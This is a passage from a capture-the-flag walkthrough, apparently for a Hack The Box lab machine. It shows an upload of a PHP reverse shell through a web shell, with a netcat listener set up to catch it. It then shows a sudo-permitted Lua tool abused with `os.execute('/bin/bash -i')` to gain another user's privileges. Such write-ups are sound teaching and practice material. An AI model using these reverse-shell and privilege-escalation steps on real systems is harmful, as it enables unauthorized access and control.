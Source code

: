 The shell has a lot of options to sift through but the first thing that stands out is the capability to upload files through the shell interface. It also looks like this shell is running as user webadmin.

Command execution is limited through this shell, so let's try to upload a reverse shell. We'll use [this one](https://github.com/pentestmonkey/php-reverse-shell) from pentestmonkey.

First, let's start our listener for our reverse shell.

```bash
$ nc -lvnp 4444
```

After successfully  uploading the shell, we can navigate to the page `http://10.10.10.181/php-reverse-shell.php`, which connects to our listener, providing us with a shell!

After having a look around, we find a text document named `note.txt` within the home directory of the user webadmin.

```bash
$ cd /home/webadmin
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Looks like the system admin left a tool for the web admin to practice Lua, a programming language, with. Let's also check our privileges with the command `sudo -l`.

The results indicate that we can run the `luvit` command as the user sysadmin without a password. A little research reveals that [luvit](https://luvit.io/) is a tool used that provides asynchronous I/O for Lua and can run scripts in the CLI. Addtionally, [GTFOBins](https://gtfobins.github.io/gtfobins/lua/) has some information regarding abusing Lua to escalate privileges.

We'll create a Lua script that will open a shell as the user sysadmin. This should escalate our privileges.

```bash
$ touch pe.lua
$ printf "os.execute('/bin/bash -i')" > pe.lua
$ sudo -u sysadmin /home/sysadmin/luvit pe.lua
```

Success! We are now sysadmin. Let's grab the user flag.

![](/assets/img/posts/htb/04-2020-2/user-flag.png)

## Root Flag

Now that we've successfully escalated privileges, let's go ahead and create persistence, this will also assist us as move forward to getting root access.
